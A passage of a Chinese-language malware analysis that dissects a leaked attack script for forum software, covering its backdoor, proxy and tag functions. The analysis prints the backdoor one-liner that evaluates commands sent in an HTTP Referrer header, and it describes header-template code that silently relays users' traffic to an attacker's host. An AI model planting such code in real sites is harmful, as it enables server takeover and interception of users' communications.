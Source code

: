`-op`参数展示了可以选择的操作，最主要的是`door`,`proxy`和`tag`功能，以及相应的`show`操作，我们也是选择这三部分功能进行分析

因为脚本是直接对数据库进行操作，所以需要指定数据库的连接信息，也可以指定`-conf`参数跟上论坛的配置文件，脚本会自动提取里面的基本信息。其他的参数就是字面意思，包括设置ssl，要包括及排除的用户，设置黑名单等等，可以看出脚本的功能是相当强大的。

#### Backdoor 功能分析
这应该是脚本最简单粗暴的方法，直接在数据库中插入后门代码，之后通过HTTP请求中的`Referrer`字段发送指令，注意此处是`Referrer`而不是默认的`Referer`，隐蔽性非常好。

![backdoor](https://ob5vt1k7f.qnssl.com/uLFsU)

看一下插入后门的方法(在脚本中打印了执行的sql语句来方便理解)，可以看到插入后门的操作对页脚模板插入了一段base64编码后的代码`eval($_SERVER["HTTP_REFERRER"]);`，在页面渲染页脚部分时就会加载恶意代码，攻击者就可以通过`HTTP_REFERRER`字段下发指令，利用非常简单。我们来看一下它具体是如何实现的

![op_door](https://ob5vt1k7f.qnssl.com/TPKug)
![patch_db](https://ob5vt1k7f.qnssl.com/J1Q9m)

很简单的逻辑，将base64编码后的一句话代码插入`template`表的`footer`模板下，在`global.php`调用过程中被加载执行。

![global.php](https://ob5vt1k7f.qnssl.com/06Abt)

![debug](https://ob5vt1k7f.qnssl.com/wSBon)

![phpinfo](https://ob5vt1k7f.qnssl.com/Eumco)

#### Proxy 功能分析
Proxy功能相对复杂一些，但也离不开对模板的操作，它涉及的是`header`模板

![proxyTemplate](https://ob5vt1k7f.qnssl.com/gGsRT)
![op_proxy](https://ob5vt1k7f.qnssl.com/KS5ci)

使用proxy时需要指定一个`tag`，而且tagurl需要符合正则表达式`/(.+?)\/.+?\/.+?\/(.+?)\/\d+\/(.+?)\/(.*)/`也就是`x.x.x.x/a/b/c/1/d/`的格式，这地方是个坑...

指定tagurl生成相应的proxy代码

![proxy](https://ob5vt1k7f.qnssl.com/1UrLg)
解码后

![proxy code](https://ob5vt1k7f.qnssl.com/oXMfY)

`$fahost`就是我们指定的tag的ip。当满足if条件——请求路径中含有`/`且ip不是`64.38.3.50`时，`header`渲染过程中会加载这些php代码，构造一个请求发送给我们的tagUrl。值得注意的是这里不仅支持GET请求，同样支持POST请求，也就是说我们可以作为“中间人”的角色时刻监听着用户与论坛之间的通信，实现了真正意义上的代理，而且用户在这过程中完全无法察觉到，细思极恐...

![proxy request](https://ob5vt1k7f.qnssl.com/jEOhg)

可以确定的是`64.38.3.50`这个ip一定与攻击组织有关，也许在测试的时候就将此ip排除在外，避免一些麻烦，同时这也是整个脚本泄露的唯一一个确定的ip。

#### Tag 功能分析

![op_tag](https://ob5vt1k7f.qnssl.com/NXTqW)
Tag功能更加复杂，操作`navbar`模板，使用时有这么几个选项可以指定，`-tag`指定标记的url，`-nohttp`表示不自动加上`http://`，这种情况可以在正常访问时嵌入一个网站本身的url，`-f`Force，还有`ssl`选项，适用于https的情况。
